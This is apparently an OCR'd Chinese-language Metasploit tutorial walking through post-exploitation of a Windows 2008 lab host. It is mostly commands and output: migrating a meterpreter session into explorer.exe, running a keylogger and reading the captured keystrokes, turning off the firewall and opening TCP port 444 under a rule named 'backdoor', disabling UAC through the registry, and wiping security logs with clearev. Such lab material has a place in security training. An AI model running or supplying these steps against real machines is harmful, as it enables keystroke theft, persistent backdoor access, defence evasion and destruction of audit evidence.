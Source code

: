 ```
meterpreter > ps -S "explorer"      //查看进程
Filtering on 'explorer'

Process List
============

 PID   PPID  Name        Arch  Session  User              Path
 ---   ----  ----        ----  -------  ----              ----
 3000  1784  explorer.e  x64   1        WIN-5MQI51VLCDC\  C:\Windows\Explor
             xe                         Administrator     er.EXE

meterpreter > migrate 3000        //进程迁移
[*] Migrating from 1080 to 3000...    //从1052迁移到5452
[*] Migration completed successfully.   //迁移成功完成

meterpreter > getuid            //再次获取用户信息
Server username: WIN-5MQI51VLCDC\Administrator

```
- explorer进程是系统进程，稳定，Administrator权限

### 开启键盘记录
```
meterpreter > run post/windows/capture/keylog_recorder 

[*] Keystrokes being saved in to /root/.msf4/loot/20231227154427_default_192.168.10.142_host.windows.key_039902.txt

//在win2008打开记事本，输入任意内容
//在kali中重新打开一个终端

[root]cat /root/.msf4/loot/20231227154427_default_192.168.10.142_…………

asd
asdasasdgadfgsdfhfghfgh       //windows2008输入的内容

```
### 设置防火墙
```
meterpreter > shell   //切换到目标主机的命令行终端
C:\Windows\system32>netsh advfirewall set allprofiles state off
//关闭防火墙
C:\Windows\system32>netsh advfirewall set allprofiles state on
//开启防火墙
C:\Windows\system32>netsh firewall add portopening tcp 444 backdoor 
enable all
//添加入站规则，规则名backdoor 协议TCP 端口444

```
### 关闭用户账户控制————操作注册表关闭UAC
- UAC：User Account Control 用户账户控制，是windows在操作系统中一种安全控制机制使用UAC，可以防止未经授权应用程序的自动安装，组织恶意程序
- ADD 添加一个注册表项
  - /v创建键值
  - /t键值类型
  - /d键值的值
  - /f强制覆盖
```
C:\Windows\system32>reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```
- 使用clearev命令，清除安全日志
  - 完成清除后，目标主机的安全日志为空
```
```